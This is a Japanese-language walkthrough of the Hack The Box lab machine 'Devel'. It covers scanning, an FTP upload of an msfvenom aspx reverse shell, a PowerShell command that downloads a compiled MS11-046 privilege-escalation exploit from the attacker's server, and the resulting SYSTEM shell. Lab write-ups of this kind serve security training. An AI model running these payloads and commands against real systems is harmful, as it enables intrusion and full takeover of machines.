




# Devel

【偵察】

```bash
└─$ sudo nmap -sC -sV -O -oA initial 10.10.10.5
[sudo] kali のパスワード:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 21:16 JST
Nmap scan report for 10.10.10.5
Host is up (0.41s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.17 seconds

```

```bash
──(kali㉿kali)-[~]                                                                            [22/22]
└─$ sudo nmap -sC -n -vvv -p- 10.10.10.5                                                              
[sudo] kali のパスワード:                                                                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 21:17 JST                                       
NSE: Loaded 125 scripts for scanning.                                                                 
NSE: Script Pre-scanning.                                                                             
NSE: Starting runlevel 1 (of 2) scan.                                                                 
Initiating NSE at 21:17                                                                               
Completed NSE at 21:17, 0.00s elapsed                                                                 
NSE: Starting runlevel 2 (of 2) scan.                                                                 
Initiating NSE at 21:17                                                                               
Completed NSE at 21:17, 0.00s elapsed                                                                 
Initiating Ping Scan at 21:17                                                                         
Scanning 10.10.10.5 [4 ports]                                                                         
Completed Ping Scan at 21:17, 0.22s elapsed (1 total hosts)                                           
Initiating SYN Stealth Scan at 21:17                                                                  
Scanning 10.10.10.5 [65535 ports]                                                                     
Discovered open port 21/tcp on 10.10.10.5                                                             
Discovered open port 80/tcp on 10.10.10.5                                                             
SYN Stealth Scan Timing: About 4.26% done; ETC: 21:29 (0:11:36 remaining)                             
SYN Stealth Scan Timing: About 14.01% done; ETC: 21:25 (0:06:15 remaining)                            
SYN Stealth Scan Timing: About 25.93% done; ETC: 21:23 (0:04:20 remaining)                            
SYN Stealth Scan Timing: About 35.00% done; ETC: 21:23 (0:04:01 remaining)                            
SYN Stealth Scan Timing: About 45.95% done; ETC: 21:23 (0:03:08 remaining)
SYN Stealth Scan Timing: About 56.04% done; ETC: 21:23 (0:02:29 remaining)
SYN Stealth Scan Timing: About 66.05% done; ETC: 21:23 (0:01:53 remaining)
Stats: 0:04:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 73.18% done; ETC: 21:23 (0:01:29 remaining)
Stats: 0:04:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 73.18% done; ETC: 21:23 (0:01:29 remaining)
SYN Stealth Scan Timing: About 81.32% done; ETC: 21:24 (0:01:11 remaining)
SYN Stealth Scan Timing: About 87.30% done; ETC: 21:24 (0:00:49 remaining)
Completed SYN Stealth Scan at 21:24, 397.23s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.5.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:24
NSE: [ftp-bounce 10.10.10.5:21] PORT response: 501 Server cannot accept argument.
Completed NSE at 21:24, 10.92s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:24

```

```bash
nmap -sU -O -oA nmap/udp 10.10.10.5
```



```
sudo dirb http://10.10.10.5
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo searchsploit Microsoft IIS httpd 7.5
[sudo] kali のパスワード:
Exploits: No Results
Shellcodes: No Results
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo searchsploit  Microsoft ftpd
Exploits: No Results
Shellcodes: No Results
```

以降Writeupを見て実施

* fptでannonymousユーザでログインを試みる

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ ftp 10.10.10.5
  Connected to 10.10.10.5.
  220 Microsoft FTP Service
  Name (10.10.10.5:kali): anonymous
  331 Anonymous access allowed, send identity (e-mail name) as password.
  Password: 
  230 User logged in.
  Remote system type is Windows_NT.
  ftp> ls
  229 Entering Extended Passive Mode (|||49159|)
  125 Data connection already open; Transfer starting.
  03-18-17  02:06AM       <DIR>          aspnet_client
  03-17-17  05:37PM                  689 iisstart.htm
  03-17-17  05:37PM               184946 welcome.png
  226 Transfer complete.
  ftp> 
  
  ```

  80ポートのファイルと同一のファイルである。試しにtest.htmlをftpでアップロードし、ブラウザから参照できるかを確認する。

  ```bash
  ┌──(kali㉿kali)-[~/Documents/HTB/devel]
  └─$ echo "<html><body>hello</body></html>" > test.html
  
  ┌──(kali㉿kali)-[~/Documents/HTB/devel]
  └─$ cat test.html 
  <html><body>hello</body></html>
  ```

  ```bash
  ftp> put test.html
  ftp> ls
  229 Entering Extended Passive Mode (|||49161|)
  125 Data connection already open; Transfer starting.
  03-18-17  02:06AM       <DIR>          aspnet_client
  03-17-17  05:37PM                  689 iisstart.htm
  08-01-22  03:54PM                   33 test.html
  03-17-17  05:37PM               184946 welcome.png
  
  ```

  

## Gaining a Foothold

* リバースシェルを作成するためにMSFvenomを利用する。

  ```bash
  $ sudo msfvenom --list formats                                                                      
                                                                                                        
  Framework Executable Formats [--format <value>]                                                       
  ===============================================                                                       
                                                                                                        
      Name                                                                                              
      ----                                                                                              
      asp                                                                                               
      aspx                                                                                              
      aspx-exe                                                                                          
      axis2                                                                                             
      dll                                                                                               
      elf                                                                                               
      elf-so                                                                                            
      exe                                                                                               
      exe-only                                                                                          
      exe-service                                                                                       
      exe-small                                                                                         
      hta-psh                                                                                           
      jar                                                                                               
      jsp                                                                                               
      loop-vbs
      macho
      msi
      msi-nouac
      osx-app
      psh
      psh-cmd
      psh-net
      psh-reflection
      python-reflection
      vba
      vba-exe
      vba-psh
      vbs
      war
  
  ```

  * aspxがオプションの１つである。

```bash
msfvenom --list payloads | grep windows
```

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.2 LPORT=4444 -o reverse-shell.aspx
```

* **-p**: payload

* **-f**: format

* **LHOST**: attack machine’s (kali) IP address

* **LPORT**: the port you want to send the reverse shell across

* **-o**: where to save the payload

```bash
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put reverse-shell.aspx 
local: reverse-shell.aspx remote: reverse-shell.aspx
229 Entering Extended Passive Mode (|||49162|)
125 Data connection already open; Transfer starting.
100% |*********************************************************|  2748        3.01 MiB/s    --:-- ETA
226 Transfer complete.
2748 bytes sent in 00:00 (6.38 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49163|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
08-01-22  04:14PM                 2748 reverse-shell.aspx
08-01-22  03:54PM                   33 test.html
03-17-17  05:37PM               184946 welcome.png

```

```bash
└─$ nc -lvnp 4444
```



```bash
─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.5] 49164
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

```bash
c:\Users\Public\Downloads>whoami
whoami
iis apppool\web
```

```powershell
c:\Users\Public\Downloads>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 
System Boot Time:          1/8/2022, 3:14:54 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.480 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.559 MB
Virtual Memory: In Use:    582 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::44d5:4b1:c8d3:f64a
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

```

windows7でアップロードされておらず脆弱性がありそうと判断する。

googleで検索し、EDB-ID：40564が引っかかる。searchsploitで検索する

```bash
└─$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text

Copied to: /home/kali/Documents/HTB/devel/40564.c

┌──(kali㉿kali)-[~/Documents/HTB/devel]
└─$ ls
40564.c  nmap  reverse-shell.aspx  test.html

```

40564.cがコピーされている。

https://www.exploit-db.com/exploits/40564



```bash
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/devel]
└─$ sudo i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
[sudo] kali のパスワード:
sudo: i686-w64-mingw32-gcc: コマンドが見つかりません

sudo apt-get install mingw-w64
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/devel]
└─$ sudo i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32

┌──(kali㉿kali)-[~/Documents/HTB/devel]
└─$ ls
40564.c  40564.exe  nmap  reverse-shell.aspx  test.html
```

```bash
python -m SimpleHTTPServer 9005
```

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.2:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

```powershell
c:\Users\Public\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\Public\Downloads

01/08/2022  04:56     <DIR>          .
01/08/2022  04:56     <DIR>          ..
01/08/2022  04:54            250.295 40564.exe
01/08/2022  04:56                  0 dir
               2 File(s)        250.295 bytes
               2 Dir(s)   4.695.597.056 bytes free

```

```powershell
c:\Users\Public\Downloads>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

```powershell
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\Administrator\Desktop

14/01/2021  12:42     <DIR>          .
14/01/2021  12:42     <DIR>          ..
01/08/2022  03:15                 34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.695.453.696 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
```

## 所感

* ftpでanonymousログイン試行を自分自身でできなかったのは反省。80のファイルと同一のディレクトリであることが気づけてもよかった。
* aspxでIISのリバースシェルを付けてかつ、msfvenomを利用してリバーシェルのペイロードを作成するというところは手法として覚えてしまおう
* windows7がだいぶ古いからという点、build番号で脆弱性を探す点、searchsploitで-mオプション＋EDBIDでモジュールのダウンロード含めて実行できるのは便利だ。
